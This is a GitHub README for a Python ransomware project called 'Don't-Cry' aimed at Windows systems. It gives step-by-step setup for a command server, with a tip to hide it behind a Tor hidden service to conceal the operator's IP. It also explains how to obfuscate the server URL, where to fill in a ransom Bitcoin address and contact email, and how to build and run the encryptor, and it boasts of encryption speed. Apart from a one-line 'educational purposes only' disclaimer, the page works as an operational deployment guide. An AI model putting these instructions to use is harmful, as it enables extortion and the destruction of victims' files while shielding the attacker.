 <h1 align="center">Don't-Cry Ransomware PoC</h1>

<div align="center">
  <img src="https://img.shields.io/badge/Python-3.12%2B-blue?logo=python&logoColor=white" alt="Python">
  <img src="https://img.shields.io/badge/Requires-Cython-yellow?logo=python&logoColor=white" alt="Cython">
  <img src="https://img.shields.io/badge/Rust-1.87.0%2B-orange?logo=rust&logoColor=white" alt="Rust >= 1.87.0">
  <img src="https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat&logo=open-source-initiative&logoColor=white" alt="License">
  <img src="https://img.shields.io/badge/Platform-Windows-blue?logo=windows&logoColor=white" alt="Platform">
</div>

![DCry](imgs/dcry.png)
PoC ransomware in Python targeting Windows systems 💀💀💀

---

## Setup & Installation

### Server (Linux)

1. Install the required packages:

  ```powershell
  pip3 install -r requirements-server.txt
  ```

2. Run the server:

  ```bash
  gunicorn -b 0.0.0.0:8080 src.server:app
  ```

> Or for debugging:

  ```bash
  python3 src/server.py
  ```

> 💡 **Tip:** You can also run the server behind a Tor hidden service to hide your real IP.
> Example (in `torrc`):
>
> ```txt
> HiddenServiceDir /var/lib/tor/dcry/
> HiddenServicePort 80 127.0.0.1:8080
> ```
>
> After restarting Tor, your Onion address will be available in `/var/lib/tor/dcry/hostname`.

### Client (Windows)

1. Install the required packages:
  
  ```powershell
  pip install -r requirements-client.txt
  ```

---

## Usage

1. Open [`src/dcry.py`](src/dcry.py)
  
    * Replace the `YOUR_URL` variable with the encoded URL using the `dx42` function like this:
      ```python
      YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
      ```
      (Use the `ex42` function from the `edx42` module to encode your URL first.)
      
      Example:
      ```python
      encoded_url = ex42(b"https://your-tor-server.onion")
      YOUR_URL = dx42(encoded_url).decode()
      ```
  
     * Replace `YOUR_PROXY`, `YOUR_BITCOIN_ADDRESS`, `YOUR_EMAIL_ADDRESS`, `YOUR_DOWNLOAD_URL` similarly.
     * Set `dev_mode = False` if not using development mode.

2. Open [`src/decryptor.py`](src/decryptor.py)

   * Set `dev_mode = False` if not using development mode.

3. Build the Cython code:

  ```powershell
  python src/setup.py build_ext --inplace
  Move-Item -Path file_crypto.*.pyd -Destination src -Force
  ```

4. Run the server (WSGI):

  ```bash
  gunicorn -b 0.0.0.0:8080 src.server:app
  ```

5. Run the ransomware:

  ```powershell
  python src/dcry.py
  ```

6. Run the decryptor:

  ```powershell
  python src/decryptor.py
  ```

---

## Performance Note

**Estimated encryption speed with 16 processes (1 file, 53 GB):**

- Speed per process: ~56 MB/s
- Using 16 processes: ~896 MB/s


> ⚡ Using multiprocessing allows Python to approach native C/C++ speeds for large files.

---

## Warning

> [!WARNING]
> This project is a ransomware simulation for educational purposes only.

---

## FAQ

  * See details in [FAQ.md](docs/FAQ.md)

## Contributing

  * See contribution guidelines in [CONTRIBUTING.md](docs/CONTRIBUTING.md)

## Code of Conduct

  * See our community standards in [CODE\_OF\_CONDUCT.md](docs/CODE_OF_CONDUCT.md)

## Security

  * See the security policy in [SECURITY.md](docs/SECURITY.md)

## License

  * This project is licensed under the terms of the [Apache License 2.0](./LICENSE)

